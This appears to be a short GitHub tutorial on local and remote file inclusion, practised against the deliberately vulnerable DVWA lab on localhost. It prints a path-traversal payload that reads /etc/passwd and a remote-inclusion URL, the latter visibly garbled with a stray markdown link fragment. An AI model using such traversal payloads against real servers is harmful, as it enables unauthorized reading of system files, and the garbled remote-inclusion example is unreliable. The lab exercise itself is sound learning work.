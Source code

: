 # File Inclusion Vulnerability 

There are two type of file inclusion vulnerability. 
1. Local File Inclusion 
2. Remote File Inclusion 

In this vulnerability we play aroud the directory and get the important information. URL play a very important role in performing this type of vulnerability. 

## Procedure for performing local file inclusion 

1. Change the security DVWA mode to low.

![image](https://user-images.githubusercontent.com/60937657/197385784-f960820c-4be8-4f31-911d-1858f32b5e34.png)

2. Go to file Inclusion Option. 

![image](https://user-images.githubusercontent.com/60937657/197388618-02afd06e-c9f7-4422-b0cb-1e33d3f6ff85.png)

3. Changing the file URL.

![image](https://user-images.githubusercontent.com/60937657/197388820-3867654d-36cc-4c5e-af96-d06b23929a9a.png)

```
127.0.0.1/DVWA/vulnerabilities/fi/?page=../../../../../../../etc/passwd
```

The major change in url is being made after '=' sign. 

```
../../../../../../../etc/passwd
```

## Procedure for performing remote file inclusion

1. Change the security DVWA mode to low 

![image](https://user-images.githubusercontent.com/60937657/197385784-f960820c-4be8-4f31-911d-1858f32b5e34.png)

2. Go to file Inclusion Option 

![image](https://user-images.githubusercontent.com/60937657/197388618-02afd06e-c9f7-4422-b0cb-1e33d3f6ff85.png)

3. Changing the file URL 

The major change in URL is being made after '=' sign. 

```
http://www.google.com
```

```
127.0.0.1/DVWA/vulnerabilities/fi/?page=[../../../../../../../etc/passwd](http://www.google.com

```

**Result of this change is shown below**

![image](https://user-images.githubusercontent.com/60937657/197389222-73336f99-16f5-4642-bd89-96e4915ccf2c.png)

